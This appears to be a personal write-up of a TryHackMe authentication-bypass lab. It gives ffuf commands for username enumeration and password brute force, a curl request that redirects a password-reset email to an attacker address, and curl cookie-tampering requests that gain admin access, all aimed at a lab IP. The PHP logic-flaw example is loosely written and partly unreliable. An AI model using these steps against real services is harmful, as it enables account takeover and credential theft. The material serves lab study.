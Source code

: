 Here are the methods of bypassing authentication, these vulnerabilities are often the most critical, because they leak personal data.

## Username enumeration

Username enumeration with ffuf

```shell
user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.80/customers/signup -mr "username already exists"
```
Based on the response "username already exists" we can fuzz this login form with wordlist of names, and end up with list of users.

## Brute force
  
Bruteforcing with ffuf
Using this fuzzer, we can bruteforce the web requests with customized http requests.
And utilizing wordlists for names or passowrds.

```shell
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.80/customers/login -fc 200
```

## Logic  flaw

```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```

Logic flaws can happen anywhere in the application but we are focusing on authentication in this segment.
In this PHP code example, the code uses === for comparison, which check literally one for one.
But let's say we try to access the admin page via /adMin or any other capitalized permutation of this path.
The check will return false and else block is executed, aka we bypassed the logical check.
#### Password reset logic flaw

In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.  

Let's illustrate this by using the curl tool to manually make the request to the webserver.  

**Curl Request 1:**

```shell
user@tryhackme$ curl 'http://10.10.54.80/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.  

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.  

**Curl Request 2:**

```shell
user@tryhackme$ curl 'http://10.10.54.80/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

To clear the confusion:
First you create your own account so you can recieve support tickets.
Now making the curl request 1 with both robert as username and roberts email as data of the request.
On the second curl we change the data as such, first the target stays robert but last in data email is set as attacker email.

This will create a ticket accessible to you with link to direct access to the roberts account because fuck security lol.


## Cookie Tampering

**Plain Text**

The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:

**Set-Cookie: logged_in=true; Max-Age=3600; Path=/**  
****Set-Cookie: admin=false; Max-Age=3600; Path=/****

We see one cookie (logged_in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.

First, we'll start just by requesting the target page:  

Curl Request 1

```shell
curl http://10.10.54.80/cookie-test
```

We can see we are returned a message of: **Not Logged In**

Now we'll send another request with the logged_in cookie set to true and the admin cookie set to false:  

Curl Request 2

```shell
curl -H "Cookie: logged_in=true; admin=false" http://10.10.54.80/cookie-test
```

We are given the message: **Logged In As A User**

Finally, we'll send one last request setting both the logged_in and admin cookie to true:

Curl Request 3

```shell
curl -H "Cookie: logged_in=true; admin=true" http://10.10.54.80/cookie-test
```

This returns the result: **Logged In As An Admin** as well as a flag which you can use to answer question one.

Cookies are hopefully not in plain text and rather hashed with algorithms such as sha-512.
Or encoded (which is reversible) via base32 or 64.

